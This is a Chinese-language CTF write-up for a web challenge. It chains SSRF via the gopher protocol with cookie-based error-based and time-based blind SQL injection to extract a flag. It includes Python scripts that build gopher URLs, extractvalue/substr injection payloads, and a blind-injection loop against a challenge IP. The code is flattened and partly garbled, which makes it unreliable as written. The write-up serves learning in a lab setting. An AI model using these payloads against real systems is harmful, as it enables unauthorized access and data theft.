题目描述：
太简单了不描述了，给sql签个到吧
题目解题：

打开页面，这里说我们不是内部用户不能访问，那估计得利用ssrf，这里先测试一下表单。先尝试了弱口令，没用，在尝试万能密码：'or 1=1#，也没信息，那看一下源代码

发现php，访问一下

不出所料这里就是ssrf利用点。这里也是测试一番，发现只有输入127.0.0.1有反应

bp抓包看一下似乎也没啥信息，这里也就没思路，因为ssrf的利用不太会，因此就借鉴wp吧。
看了wp这里是要利用协议来实现内部访问
Gopher协议
定义：Gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。但在WWW出现后，Gopher失去了昔日的辉煌。现在它基本过时，人们很少再使用它；
gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，在构成符合gopher协议的请求。gopher协议是ssrf利用中最强大的协议
限制：gopher协议在各个编程语言中的使用限制Gopher协议格式 ：
gopher的默认端口是70
如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码
剩下的细节就参考：gopher协议基础
gopher实战1：gopher协议的利用 - FreeBuf网络安全行业门户
gopher实战2：Gopher协议在SSRF漏洞中的深入研究（附视频讲解） - 知乎 (zhihu.com)
ssrf参考：SSRF漏洞 - Saint_Michael - 博客园 (cnblogs.com)
SSRF深入各种高级实战用法_G0mini的博客-CSDN博客
ssrf漏洞利用(内网探测、打redis) - ctrl_TT豆 - 博客园 (cnblogs.com)
粮食充足~
抓包首页post表单发现响应包有set-cookie，wp说：有一个Set-Cookie代表如果输入正确的账号跟密码是可以返回的，可以尝试爆破

思来想去，这里应该就是结合ssrf来登录实现内部访问获取cookie
那这里就需要万能的gopher协议了，不过自身太菜，只能作为一个脚本小子了，虽不会写但咱也得看懂
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 import urllib.parse "uname=admin&passwd=admin" len (content) """POST /index.php HTTP/1.1 Host: 127.0.0.1:80 User-Agent: curl/7.43.0 Accept: */* Content-Type: application/x-www-form-urlencoded Content-Length: {} uname=admin&passwd=admin # 这里似乎不用再次写 """ .format (content_length) "%0A" , "%0D%0A" ) print ("gopher://127.0.0.1:80/_" +result)
1 2 3 输出如下

这里抓包看回显，有两个cookie，那估计是我们在use页面直接访问127.0.0.1时，其cookie被上面的cookie覆盖了。那这里第二个cookie就是我们登录时得到cookie，那很明显这个cookie就是注入点。

报错注入
这里解码发现为admin，那现在就是测试闭合方式了，先测试admin’ #
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 import urllib.parse"127.0.0.1:80" "this_is_your_cookie=YWRtaW4nICM=" """GET /index.php HTTP/1.1 Host: {} Connection: close Content-Type: application/x-www-form-urlencoded Cookie:{} """ .format (host,cookie)"%0A" ,"%0D%0A" )print ("gopher://" +host+"/_" +result)
1 2 输出:

发现页面有报错信息，那我们就开始报错注入吧，这里看到near ‘’，那应该就是admin’)闭合的方式，我们直接测试看看
payload为：admin') and extractvalue(1, concat(0x7e, (select database()),0x7e)) #
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 import urllib.parseimport base64"127.0.0.1:80" "admin') and extractvalue(1, concat(0x7e,(select database()),0x7e)) #" str (base64.b64encode(payload.encode("utf-8" )), "utf-8" )"this_is_your_cookie=" +base64_payload"""GET /index.php HTTP/1.1 Host: {} Connection: close Content-Type: application/x-www-form-urlencoded Cookie:{} """ .format (host,cookie)"%0A" ,"%0D%0A" )print ("gopher://" +host+"/_" +result)
1 2 3 输出：

查表：
1 admin') and extractvalue(1, concat(0x7e, (select GROUP_CONCAT(table_name)from information_schema.tables WHERE table_schema='security'),0x7e)) #
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 import urllib.parseimport base64"127.0.0.1:80" "admin') and extractvalue(1, concat(0x7e, (select GROUP_CONCAT(table_name)from information_schema.tables WHERE table_schema='security'),0x7e)) #" str (base64.b64encode(payload.encode("utf-8" )), "utf-8" )"this_is_your_cookie=" +base64_payload"""GET /index.php HTTP/1.1 Host: {} Connection: close Content-Type: application/x-www-form-urlencoded Cookie:{} """ .format (host,cookie)"%0A" ,"%0D%0A" )print ("gopher://" +host+"/_" +result)
1 2 3 输出:

这里有过滤，似乎是过滤了group_concat
查列：admin') and extractvalue(1, concat(0x7e, (select GROUP_CONCAT(column_name)from information_schema.columns WHERE table_name='flag'),0x7e)) #
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 import urllib.parseimport base64"127.0.0.1:80" "admin') and extractvalue(1, concat(0x7e, (select GROUP_CONCAT(column_name)from information_schema.columns WHERE table_name='flag'),0x7e)) #" str (base64.b64encode(payload.encode("utf-8" )), "utf-8" )"this_is_your_cookie=" +base64_payload"""GET /index.php HTTP/1.1 Host: {} Connection: close Content-Type: application/x-www-form-urlencoded Cookie:{} """ .format (host,cookie)"%0A" ,"%0D%0A" )print ("gopher://" +host+"/_" +result)
1 2 3 输出：

查内容
admin') and extractvalue(1, concat(0x7e, (select flag from flag),0x7e)) #
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 import urllib.parseimport base64"127.0.0.1:80" "admin') and extractvalue(1, concat(0x7e, (select flag from flag),0x7e)) #" str (base64.b64encode(payload.encode("utf-8" )), "utf-8" )"this_is_your_cookie=" +base64_payload"""GET /index.php HTTP/1.1 Host: {} Connection: close Content-Type: application/x-www-form-urlencoded Cookie:{} """ .format (host,cookie)"%0A" ,"%0D%0A" )print ("gopher://" +host+"/_" +result)
1 2 3 输出：

此时出现了另一个问题，报错的回显最大位数为32位，此时我们只获得了32位，需要用substr函数进行分割读取：
分割读取
admin') and extractvalue(1, concat(0x7e, substr((SELECT flag from flag),30,32),0x7e)) #
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 import urllib.parseimport base64"127.0.0.1:80" "admin') and extractvalue(1, concat(0x7e, substr((SELECT flag from flag),30,32),0x7e)) #" str (base64.b64encode(payload.encode("utf-8" )), "utf-8" )"this_is_your_cookie=" +base64_payload"""GET /index.php HTTP/1.1 Host: {} Connection: close Content-Type: application/x-www-form-urlencoded Cookie:{} """ .format (host,cookie)"%0A" ,"%0D%0A" )print ("gopher://" +host+"/_" +result)
1 2 3 输出：

时间盲注
这里分享时间盲注脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 import requests import time import base64 "http://61.147.171.105:64317/use.php?url=" "" for pos in range (1 , 50 ):for i in range (33 , 127 ):"') union select 1,2,if(ascii( substr((select * from flag)," + str (pos) + ",1) )=" + str (",sleep(2),1) # " str (base64.b64encode(poc.encode("utf-8" )), "utf-8" ) "gopher://127.0.0.1:80/_GET%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aCookie%3A%20this%5Fis%5Fyour%5Fcookie%3D" + bs + "%3B%250d%250a" if (t2 - t1 > 2 ):chr (i) print (flag) break print (flag)
其中 变量final_poc 经过两次url解码，内容如下所示，将变量bs (编码后的变量poc )传到服务器~

参考文章：
剩下的细节就参考：gopher协议基础
gopher实战1：gopher协议的利用 - FreeBuf网络安全行业门户
gopher实战2：Gopher协议在SSRF漏洞中的深入研究（附视频讲解） - 知乎 (zhihu.com)
SSRF实战1：SSRF漏洞 - Saint_Michael - 博客园 (cnblogs.com)
SSRF实战2：SSRF深入各种高级实战用法_G0mini的博客-CSDN博客
SSRF实战3：ssrf漏洞利用(内网探测、打redis) - ctrl_TT豆 - 博客园 (cnblogs.com)
wp参考1
wp参考2